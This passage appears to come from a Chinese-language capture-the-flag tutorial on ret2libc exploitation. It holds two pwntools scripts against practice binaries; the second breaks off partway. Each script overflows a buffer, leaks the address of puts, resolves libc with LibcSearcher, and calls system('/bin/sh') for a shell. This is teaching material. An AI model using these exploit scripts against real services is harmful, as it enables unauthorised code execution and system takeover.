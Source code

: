 ```python
    else:
        return process([exe.path])


def main():
    r = conn()

    payload1 = flat(['a'*0x70, puts_plt, start_symbol, puts_got])
    r.sendlineafter('Can you find it !?', payload1)
    recv_content = r.recv()
    real_puts_addr = u32(recv_content[:4])

    libc = LibcSearcher('puts', real_puts_addr)
    libc_base = real_puts_addr - libc.dump('puts')
    real_system_addr = libc_base + libc.dump('system')
    bin_sh_addr = libc_base + libc.dump('str_bin_sh')

    payload2 = flat(['a'*0x70, real_system_addr, 'b'*4, bin_sh_addr])
    r.sendline(payload2)

    r.interactive()


if __name__ == '__main__':
    main()
```

例2/例1也可以用这样的攻击方式  

这是例2用这种方式的脚本：  
```python
# coding:utf8
# python3

'''
0000| 0xffffcfac --> 0xf7e1d647 (<__libc_start_main+247>:	add    esp,0x10)
0000| 0xffffcf20 --> 0xffffcf3c ('hello')

0x70
'''

from pwn import *
from LibcSearcher import *

exe = ELF('ret2libc2')

context.binary = exe

puts_plt = exe.plt['puts']
start_symbol = exe.sym['_start']
puts_got = exe.got['puts']


def conn():
    if args.REMOTE:
        return remote('addr', 1337)
    else:
        return process([exe.path])


def main():
    r = conn()

    payload1 = flat(['a'*0x70, puts_plt, start_symbol, puts_got])
```